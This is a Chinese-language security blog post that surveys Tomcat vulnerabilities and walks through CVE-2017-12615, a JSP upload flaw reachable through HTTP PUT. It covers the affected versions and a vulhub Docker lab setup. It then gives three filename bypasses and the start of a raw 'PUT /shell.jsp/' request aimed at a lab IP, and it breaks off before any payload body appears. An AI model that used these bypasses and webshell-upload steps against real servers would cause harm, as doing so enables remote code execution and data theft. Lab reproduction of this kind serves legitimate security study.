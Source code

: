 #  中间件安全|Tomcat漏洞汇总   
原创 Cyb3rES3c  Cyb3rES3c   2025-01-20 02:08  
  
**0x0****声明**  
  
    由于传播、利用此文所提供的信息而造成的任何直接或间接的后果和损失，均由使用者本人承担，Cyb3rES3c及文章作者不承担任何责任。如有侵权烦请告知，我们将立即删除相关内容并致歉。请遵守《中华人民共和国个人信息保护法》、《中华人民共和国网络安全法》等相关法律法规。  
  
**0x1 Tomcat概述**  
  
  
    Tomcat是一个开源而且免费的isp服务器，默认端口是8080，属于轻量级应用服务器。它可以实现JavaWeb程序的装载，是配置JSP(Java Server Page)和JAVA系统必备的一款环境。  
  
**0x****2 CVE-2017-12615 PUT文件上传**  
  
漏洞描述  
  
    当Tomcat运行在Windows操作系统时，且启用了HTTP PUT请求方法(例如，将readonly初始化参数由默认值设置为false)，攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。  
  
    当在Tomcat的conf(配置目录下)/web.xml配置文件中添加readonly设置为false时，将导致该漏洞产生，(需要允许put请求)，攻击者可以利用PUT方法通过精心构造的数据包向存在漏洞的服务器里面上传 jsp一句话文件，从而造成远程命令执行、Getshell等。  
  
影响范围  
```
Apache Tomcat 7.0.0-7.0.79
Apache Tomcat 8.5.19
```  
  
环境搭建  
```
cd vulhub/tomcat/CVE-2017-12615
docker-compose up -d
```  
  
可以看到 readonly 的值被设置为 false  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKrAkJtZEuB8e9gG0HOxbHpYufzMMA1TI9X1vWYKO81mfD5tYBX3ShP9GHuPfbbZ38uz7o5o2PmdOQ/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞复现  
  
访问Web服务 http://192.168.111.128:8080/  
  
在 Title 中可以看到 Tomcat 版本号：8.5.19，存在 PUT 文件上传漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKrAkJtZEuB8e9gG0HOxbHpYsHIXMpHiabJwVKyDCfWCia2Dl42VnkU1HCGXuwvwGkw1hZ1keJnypibIg/640?wx_fmt=png&from=appmsg "")  
  
默认使用 PUT <filename>.jsp 是失败的，需要 bypass，下面是三种 bypass 方法  
```
PUT /<filename>.jsp/
PUT /<filename>.jsp%20
PUT /<filename>.jsp::$DATA
```  
  
手工利用需要请求两次，第一次请求，返回 201 状态码，这个请求可以无响应体部分；PUT 再次请求该路径，返回 204 响应，这个过程会更新路径对应的文件。  
```
PUT /shell.jsp/ HTTP/1.1
Host: 192.168.111.128:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 849
```  
  